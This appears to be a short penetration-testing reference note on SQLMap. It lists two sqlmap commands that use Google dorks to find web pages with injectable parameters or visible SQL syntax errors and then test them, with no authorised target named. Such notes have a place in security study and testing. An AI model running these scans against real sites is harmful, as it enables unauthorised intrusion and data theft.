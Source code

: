 # SQLMap

## Google Dork Endpoints

```
$ sqlmap -g "inurl:\"<parameter>=\" [site:website.com] ext:\(php \| aspx \| asp \| jsp \| js\) inurl:&?" --cookies="<google_cookies_session>" -f --random-agent
```

## Syntax Error SQL Dorks

```
$ sqlmap -g "inurl:\".php?id=1\" intext:\"You have an error in your SQL syntax\"" --cookies="<google_cookies_session>" --random-agent
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/Injection/Server-Side Attack/SQL Injection/Helpers/Dorks/Google Dorks/Manual|Information Gathering: Google Dorking - Manual SQL Injection]]